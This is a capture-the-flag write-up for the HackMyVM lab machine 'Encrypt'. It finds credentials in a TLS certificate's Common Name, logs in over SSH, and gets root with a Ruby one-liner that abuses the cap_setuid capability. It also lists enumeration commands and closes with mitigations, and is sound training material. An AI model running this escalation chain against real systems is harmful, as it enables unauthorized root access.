





# Encrypt

| Field | Value |
|---|---|
| Platform | HackMyVM |
| Machine | Encrypt |
| Difficulty | Easy |
| OS | Linux (Debian 13 "trixie") |
| Attack Vector | Credentials exposed in TLS certificate CN → SSH access → `setuid` capability on Ruby binary |
| Date | 2026-09-26 |
| Author | jloffsec |

## Summary

Encrypt exposes SSH and HTTPS. The HTTPS service uses a self-signed certificate whose Common Name field contains a plaintext username and password. These credentials grant SSH access as a low-privileged user. Privilege escalation is achieved through a Linux capability (`cap_setuid`) assigned to the system Ruby interpreter, which allows arbitrary UID changes without further authentication.

## Reconnaissance

### Host discovery

```bash
arp-scan -I eth0 --localnet
```

Target IP: `192.168.1.104`

### Port scan

```bash
nmap -p- --open -sS -Pn -n --min-rate 2000 192.168.1.104
```



| Port | Service |
|---|---|
| 22 | SSH |
| 443 | HTTPS |

### Service and version detection

```bash
nmap -sC -sV -O -p22,443 192.168.1.104 -oN nmap-services.txt
```



### HTTPS inspection

```bash
curl -I https://192.168.1.104
```



The TLS certificate's Common Name field contains credentials in the format `user:password`:

```
CN=iot:Goat123!
```

## Vulnerabilities

Credentials are exposed in the TLS certificate Common Name field, retrievable by any client performing the TLS handshake, without authentication.

## Exploitation

### SSH access

The exposed credentials are valid for SSH login:

```bash
ssh iot@192.168.1.104
```



Access is obtained as the low-privileged user `iot`.

## Privilege Escalation

### Enumeration

Standard privilege escalation checks return no actionable results:

```bash
sudo -l
which doas
cat .bash_history
cat /etc/passwd | grep sh$
find / -perm -4000 2>/dev/null   # SUID
find / -perm -2000 2>/dev/null   # SGID
find / -perm -u=s -type f 2>/dev/null
```

`sudo -l` confirms `iot` has no sudo privileges. No SUID/SGID binaries outside the Linux distribution defaults are present. No custom cron jobs, writable service paths, or credential reuse opportunities are found in `/etc/passwd`, `.bash_history`, or the web root (`/var/www/html`).

### Capabilities

The default `getcap` invocation returns nothing due to a `$PATH` resolution issue. Calling the binary by its absolute path resolves this:

```bash
/sbin/getcap -r / 2>/dev/null
```

```
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin,cap_sys_nice=ep
/usr/bin/ruby3.3 cap_setuid=ep
```

`/usr/bin/ruby3.3` carries the `cap_setuid` capability. This allows any process running the Ruby interpreter to call `setuid()` and change its effective UID to any value, including `0` (root), without requiring root privileges to do so.

### Exploitation of the capability

```bash
ruby3.3 -e 'Process::Sys.setuid(0); exec "/bin/sh"'
```

```bash
whoami; id; hostname
```



Effective UID is now `0` (root).

## Conclusion

### Key Takeaways

- TLS certificate metadata (Subject/Issuer CN, SAN, O, OU) is visible to any client during the handshake and must never contain credentials or other sensitive data.
- Linux capabilities are an alternate privilege escalation path to SUID/SGID binaries and are frequently missed when enumeration only checks for SUID/SGID permissions.
- `cap_setuid` on an interpreter (Ruby, Python, Perl) is equivalent to full root access, since the interpreter can invoke `setuid(0)` directly from a one-line script.
- Tool output should never be trusted blindly when it returns empty; verify the binary actually executed (`which`, absolute path) before concluding a vector is not present.

### Mitigation

- Never place credentials, hostnames with embedded secrets, or any sensitive string in a certificate's Subject/Issuer fields.
- Remove the `cap_setuid` capability from the Ruby binary unless explicitly required: `setcap -r /usr/bin/ruby3.3`.
- Periodically audit capabilities system-wide with `getcap -r /` as part of hardening, not only SUID/SGID bits.
